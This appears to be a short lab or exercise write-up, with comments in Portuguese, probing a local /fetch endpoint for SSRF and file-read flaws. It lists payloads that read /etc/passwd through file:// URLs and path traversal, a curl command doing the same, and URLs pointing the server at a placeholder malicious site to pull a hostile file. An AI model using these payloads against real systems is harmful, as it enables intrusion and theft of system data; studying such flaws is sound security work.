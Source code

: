 ```
file:///etc/passwd
../etc/passwd
```

```
http://127.0.0.1:5000/fetch?url=file:///etc/passwd
```

```bash
curl http://127.0.0.1:5000/fetch?url=file:///etc/passwd
```

```
file:///app/requirements.txt
file:///app/text.txt
```

(não funciona)
Poderia ser feito algo como:
```http://127.0.0.1:5000/fetch?url=http://<malicious-site>.com```
```http://127.0.0.1:5000/fetch?url=http://<malicious-site>.com/malicious_file.txt```
(levando a um CSRF ou até execução de código malicioso no servidor)